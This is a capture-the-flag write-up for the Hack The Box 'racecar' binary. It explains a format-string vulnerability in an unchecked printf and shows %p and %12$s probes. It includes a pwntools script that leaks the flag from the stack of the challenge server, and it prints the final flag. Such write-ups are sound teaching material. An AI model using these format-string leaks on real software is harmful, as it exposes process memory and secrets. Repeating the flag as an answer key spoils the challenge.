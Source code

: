 # racecar

> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/76734269-2769-4654-b3bf-3dd77464dc5e)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Exploiting FSB to leak stack value.

## DESCRIPTION:
Did you know that racecar spelled backwards is racecar? Well, now that you know everything about racing, win this race and get the flag!


## STEPS:
1. First, unzip the file given and enter `hackthebox` as the password.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207557130-3fe9ba23-8bcb-4e88-aa13-5268f073a7c5.png)


2. Next, check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207557218-d4234e3c-3953-4400-bbcc-41b7e95cbfd9.png)


3. It's an ELF 32 bit file, dynamically linked and luckily not stripped.
4. Now check the file's protector.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207557439-109f1672-662f-4626-99f8-f1332be2609f.png)


5. Hmm.. Looks like there's no vuln we can utilize here.
6. Anyway, let's run the file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207557828-d7de0ace-f121-41d7-87c4-4cf18ad7482d.png)


![image](https://user-images.githubusercontent.com/70703371/207557903-9ccaf724-8926-497e-8e6c-f0c44893a15f.png)


![image](https://user-images.githubusercontent.com/70703371/207557945-a8cc3667-034d-47d1-a182-f6ee9c8e4b70.png)


![image](https://user-images.githubusercontent.com/70703371/207557993-c0842a28-250f-4334-8404-0a60ed55e99d.png)



![image](https://user-images.githubusercontent.com/70703371/207558779-ab2e8e92-5f67-4ce2-9c3e-3ff392f6c954.png)



![image](https://user-images.githubusercontent.com/70703371/207558766-204d621a-4ad0-432d-a2f5-5ee2961621b6.png)


7. Let's run the remote server.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207558976-9a6ad069-a3a0-4934-82c9-3b4872ec777e.png)


8. Follow the same steps as before.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207559114-b0da1ce8-c96f-48ac-853a-4efcc5066a68.png)


9. Let's decompile the file using ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207559895-986815be-edeb-4683-9478-e3d36c911d04.png)


10. Since we want to know what happen we the program asked us to enter the string, so let's check the `car_menu()` function.

> CAR_MENU()

![image](https://user-images.githubusercontent.com/70703371/207561282-42b1ab93-4e2d-44c2-9ce5-96de15643217.png)


11. Looks like we found the vuln here.


![image](https://user-images.githubusercontent.com/70703371/207561369-793e05fb-0033-4a87-a14f-068e98c0a74d.png)


![image](https://user-images.githubusercontent.com/70703371/207561487-5f783413-f004-416e-a5d0-8b25e6452fa3.png)


12. We can do `format strings attack`, because there's no identifier specified at the `printf()` function.
13. Run the file again, but this time in **gdb** and create the `flag.txt` first.
14. At this session, input `%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p` as the input 


![image](https://user-images.githubusercontent.com/70703371/207562117-efe8541d-b6e8-4398-be85-1bc56f1e09c3.png)


> RESULT

![image](https://user-images.githubusercontent.com/70703371/207567229-8c5649fe-32f8-491b-96af-675bac67da98.png)


15. Great we reached the next step now.
16. Based from the **ghidra** we know this variable stored the **flag** content


![image](https://user-images.githubusercontent.com/70703371/207573182-4c3531ad-4872-486b-b928-63eadb3986e5.png)


> IT HAS 44 BYTES AS THE BUFFER

![image](https://user-images.githubusercontent.com/70703371/207573552-03ea8f31-4fe7-4932-bb31-bd95bb59a9eb.png)


17. Since we know the buffer is 44 bytes, then we need to find the offset of the `__*format`. To find that, since we can't loop to run the file.
18. We can find the offset by input it manually from 1 - 44. -> **(%1-44$s)**.
19. Got a string when i tried to input `%12$s`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207577158-7422df20-9e50-4f19-b53d-6761213df5de.png)


20. It means the start offset of the flag is 12.
21. Let's continue.

> INPUT -> %12$p %13$p 


![image](https://user-images.githubusercontent.com/70703371/207580551-68948635-0c31-46c4-b9ed-33557710e0c3.png)


##### NOTES: Changed the 's' to 'p', because we would get segmentation fault. Just need the hex value.


> CONTINUE -> %12$p %13$p %14$p 


![image](https://user-images.githubusercontent.com/70703371/207580724-8ac03866-2534-4e05-8dd6-ddb58d9db7fd.png)


> CONTINUE -> %12$p %13$p %14$p %15$p 


![image](https://user-images.githubusercontent.com/70703371/207580928-b1531015-450d-47cd-b451-e0952b13ca67.png)


> ETC..

22. To simply automate this, i made a python script to solve this challenge:

> THE SCRIPT

```py
from pwn import *
import os

'''
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


#gdbscript = '''
#init-pwndbg
#continue
'''.format(**locals())
exe = '.racecar'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
'''

os.system('clear')
context.log_level = 'debug' 
payload = ""

for i in range(12, 13):
    payload += "%" + str(i) + "$p " # sh.sendline('%' + str(i) + '$s')

sh = remote('157.245.41.35', 30606)
sh.recvuntil(": ")
sh.sendline(b'Nicolas')
sh.recvuntil(": ")
sh.sendline(b'Nic')
sh.recvuntil("> ")
sh.sendline(b'2')
sh.recvuntil("> ")
sh.sendline(b'1')
sh.recvuntil("> ")
sh.sendline(b'2')
sh.recvuntil("> ")
sh.sendline(payload)
sh.recv()
result = sh.recv()
print(result)


output = (result.decode("utf-8").split("m\n"))[1]
output = output.split()

flag = ""
for items in output:
    flag += p32(int(items, base = 16)).decode("utf-8") #base 16 -> hex , then decode it

print(flag)
```

23. Try to input 13 as the end offset of the flag.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207584221-f3856834-bfcb-4fb5-9a2a-d5906b2ca9d1.png)


24. Got the prefix only.
25. So increment the second parameter of the loop until i got the complete flag.
26. Turns out, i got the flag when the second parameter value is 223.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/207584718-d45605b4-30ed-4bcd-a63d-0af51c2dbe9e.png)


27. Finally, we got the flag!


## FLAG

```
HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}
```



